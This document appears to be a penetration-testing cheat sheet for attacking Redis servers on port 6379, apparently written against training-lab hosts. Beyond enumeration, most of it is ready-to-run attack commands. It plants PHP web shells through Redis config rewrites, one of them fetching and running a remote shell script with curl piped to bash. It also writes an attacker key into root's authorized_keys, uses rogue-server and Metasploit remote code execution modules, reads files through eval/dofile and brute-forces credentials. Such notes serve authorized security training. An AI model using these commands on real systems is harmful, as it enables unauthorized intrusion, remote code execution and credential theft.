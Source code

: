 # 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

#### LFI

If LFI is found, you can enumerate the local file system for interesting files

```bash
# Look at the redis configuration file (check for passwords)
/etc/redis/redis.conf
# Look for the web DocumentRoot in the conf file
/etc/apache2/sites-enabled/000-default.conf  # Ex: apache2
# Look at the redis service file (check for ReadWriteDirectories)
/etc/systemd/system/redis.service
```

Attempt to write a file to a directory that is found in the web root or is listed as ReadWriteDirectories

## Exploitation

### PHP Web Shell

```bash
redis-cli -h <IP> -a <PASSWORD>
192.168.97.166:6379> config set dir /opt/redis-files
OK
192.168.97.166:6379> config set dbfilename rce.php
OK
192.168.97.166:6379> set test "<?php phpinfo(); ?>"  # or
192.168.97.166:6379> set test "<?php system('id'); ?>"  # or
192.168.97.166:6379> set test "<?php system('curl 192.168.49.97/shell.sh | bash'); ?>"
OK
192.168.97.166:6379> save
OK
```

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
# or
python3 redis-rogue-server.py --rhost 192.168.76.69 --rport 6379 --lhost 192.168.49.76 --lport 6379

```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
# Ex: 1
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Ex: 2
(echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h <IP> -x set ssh_key
cat spaced_key.txt | redis-cli -h 192.168.97.166 -a <password> -x set ssh_key
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```

## Brute Force

```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT>  # 6379 is the default
```

